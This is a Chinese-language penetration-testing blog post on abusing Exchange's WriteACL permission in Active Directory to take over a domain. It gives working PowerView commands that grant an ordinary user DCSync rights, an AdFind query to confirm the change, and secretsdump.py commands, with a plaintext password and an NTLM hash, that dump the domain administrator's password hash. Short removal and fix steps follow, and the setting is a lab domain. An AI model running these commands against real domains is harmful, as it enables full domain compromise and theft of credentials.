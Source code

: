 **目录**

[赋予指定用户Dcsync权限，接管域控](#t0 "赋予指定用户Dcsync权限，接管域控")

[移除指定用户dcsync权限](#t1 "移除指定用户dcsync权限")

[去除Exchange修改Dcysnc的权限](#t2 "去除Exchange修改Dcysnc的权限")

* * *

由于安装Exchange后，Exchange在Active Directory域中具有高权限，Exchange的本地计算机账户会被加入用户组Exchange Trusted Subsystem，Exchange Trusted Subsystem用户组又隶属于Exchange Windows Permissions。Exchange Windows Permissions这个组默认对域有WriteACL权限。所以当我们拿下Exchange服务器的时候，就可以尝试使用WriteACL赋予指定用户Dcsync的权限.

![](https://img-blog.csdnimg.cn/20210308123648955.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/2021030812382233.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/2021030815242066.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 赋予指定用户Dcsync权限，接管域控

当攻击者获取了Exchange所在服务器的system权限后，攻击者可以通过修改域内的ACL权限为指定帐户授予Dcsync权限，该帐户即可以使用Dcsync转储域中的所有域用户密码[哈希](https://so.csdn.net/so/search?q=%E5%93%88%E5%B8%8C&spm=1001.2101.3001.7020)，相当于接管了整个域。

如下，hack为域内普通用户

![](https://img-blog.csdnimg.cn/20210308112823477.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

在Exchange服务器上，通过执行如下命令，给指定用户hack赋予dcsync权限

```
#Empire下的powerview.ps1脚本      
Import-Module .\powerview.ps1;      
Add-DomainObjectAcl -TargetIdentity 'DC=xie,DC=com' -PrincipalIde hack -Rights DCSync -Verbose       
#移除指定用户的dcsync权限      
Remove-DomainObjectAcl -TargetIdentity 'DC=xie,DC=com' -PrincipalIde hack -Rights DCSync -Verbose
```


![](https://img-blog.csdnimg.cn/20210308112403124.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

查询域内具备Dcsync权限的用户，可以看到已经有xie\\hack了

```
AdFind.exe -s subtree -b "DC=xie,DC=com" nTSecurityDescriptor -sddl -sddlfilter ;;;"1131f6aa-9c07-11d1-f79f-00c04fc2dcd2";; -recmute -resolvesids
```


![](https://img-blog.csdnimg.cn/20210308125856377.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

hack用户拥有dcsync权限后，即可导出域内哈希。

```
python3 secretsdump.py xie.com/hack:P@ss123@10.211.55.4 -dc-ip 10.211.55.4 -just-dc-user administrator
```


![](https://img-blog.csdnimg.cn/20210308112725881.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

我已经将该功能集成在CS插件里面，一键化给指定用户添加dcsync权限。

![](https://img-blog.csdnimg.cn/20210308114212817.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

或者可以直接给mail$ 机器账号添加dcsync权限，然后导出域哈希

![](https://img-blog.csdnimg.cn/2021031422350987.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

```
python3 secretsdump.py xie.com/mail\$@10.211.55.4 -hashes aad3b435b51404eeaad3b435b51404ee:c23f4123693ea9f2bdba4bf6ee269dcd -dc-ip 10.211.55.4 -just-dc-user administrator
```


![](https://img-blog.csdnimg.cn/20210314223720716.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 移除指定用户dcsync权限

```
Import-module .\Remove-DomainObjectAcl.ps1      
Remove-DomainObjectAcl -TargetIdentity "DC=xie,DC=com" -PrincipalIdentity test -Rights DCSync
```


![](https://img-blog.csdnimg.cn/2021070122471386.png)

### 去除Exchange修改Dcysnc的权限

```
.\Fix-DomainObjectDACL.ps1 -Fix
```


![](https://img-blog.csdnimg.cn/20210701223737680.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

 相关文章：[渗透测试中的Exchange](https://www.sohu.com/a/440301325_750628 "渗透测试中的Exchange")

                   [微软Exchange爆出0day漏洞，来看POC和技术细节](https://www.freebuf.com/vuls/195162.html "微软Exchange爆出0day漏洞，来看POC和技术细节")